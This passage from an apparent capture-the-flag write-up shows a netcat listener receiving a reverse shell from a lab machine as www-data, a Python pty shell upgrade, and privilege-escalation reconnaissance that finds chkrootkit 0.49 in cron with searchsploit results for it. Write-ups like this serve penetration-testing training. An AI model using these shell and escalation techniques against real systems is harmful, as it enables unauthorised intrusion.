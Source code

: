 ![assets/writeup-e0cc5.png](assets/writeup-e0cc5.png)

I ran it and nothing happened. Hmm, let's check listening port from default 8888 to something more standard, like 80\. Okay, so port 80 didn't work for me either. Finally, I resorted to port 443 which finally opened the shell -)

```bash
# on client machine
$ sudo nc -nvlp 443                                                                                                                                                                                       Connection from 192.168.60.128:47088
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 16:59:35 up 30 min,  0 users,  load average: 0.08, 0.08, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

## Privilege escalation

Okay, we finally got a shell with limited `www-data` user.

Following the famous [G0tmi1k's privilege escalation guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), I noticed `chkrootkit` package in the crontab. Remember the initial hint in the image about antiviruses?

```bash
chkrootkit -V
chkrootkit version 0.49
```

And the `searchsploit` gives us some exploits on this version:

```bash
searchsploit chkrootkit                                                                                                                                                                                 1 ↵
------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------------------------
 Exploit Title                                                                                                                                   |  Path
                                                                                                                                                 | (/usr/local/Cellar/exploitdb/HEAD/share/exploitdb/platforms)
------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------------------------
chkrootkit 0.49 - Local Root Vulnerability                                                                                                       | ./linux/local/33899.txt
Chkrootkit - Local Privilege Escalation                                                                                                          | ./linux/local/38775.rb
------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------------------------
```
